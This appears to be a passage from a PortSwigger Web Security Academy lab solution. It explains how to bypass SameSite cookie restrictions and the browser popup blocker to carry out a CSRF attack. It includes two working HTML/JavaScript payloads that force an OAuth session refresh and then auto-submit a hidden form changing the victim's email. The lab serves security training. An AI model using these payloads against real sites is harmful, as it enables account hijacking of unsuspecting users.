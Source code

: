 ##### Bypass the SameSite restrictions
1. In the browser, notice that if you visit `/social-login`, this automatically initiates the full OAuth flow. If you still have a logged-in session with the OAuth server, this all happens without any interaction.
2. From the proxy history, notice that every time you complete the OAuth flow, the target site sets a new session cookie even if you were already logged in.
3. Go back to the exploit server.
4. Change the JavaScript so that the attack first refreshes the victim's session by forcing their browser to visit `/social-login`, then submits the email change request after a short pause. The following is one possible approach:
```
<form method="POST" action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="pwned@web-security-academy.net">
</form>

 <script>
     window.open('https://YOUR-LAB-ID.web-security-academy.net/social-login');
     setTimeout(changeEmail, 5000);
     function changeEmail(){
        document.forms[0].submit();
        }
 </script>`
```

Note that we've opened the `/social-login` in a new window to avoid navigating away from the exploit before the change email request is sent.
    
5. Store and view the exploit yourself. Observe that the initial request gets blocked by the browser's popup blocker.  
6. Observe that, after a pause, the CSRF attack is still launched. However, this is only successful if it has been less than two minutes since your cookie was set. If not, the attack fails because the popup blocker prevents the forced cookie refresh.


##### Bypass the popup blocker
1. Realize that the popup is being blocked because you haven't manually interacted with the page.
2. Tweak the exploit so that it induces the victim to click on the page and only opens the popup once the user has clicked. The following is one possible approach:
```
<form method="POST" action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="pwned@portswigger.net">
</form>

    <p>Click anywhere on the page</p>

<script>
     window.onclick = () => { window.open('https://YOUR-LAB-ID.web-security-academy.net/social-login');
    setTimeout(changeEmail, 5000); }
     function changeEmail() {
     document.forms[0].submit(); 
     }
 </script>
```
3. Test the attack on yourself again while monitoring the proxy history in Burp.
4. When prompted, click the page. This triggers the OAuth flow and issues you a new session cookie. After 5 seconds, notice that the CSRF attack is sent and the `POST /my-account/change-email` request includes your new session cookie.
5. Go to your account page and confirm that your email address has changed.
6. Change the email address in your exploit so that it doesn't match your own.
7. Deliver the exploit to the victim to solve the lab.
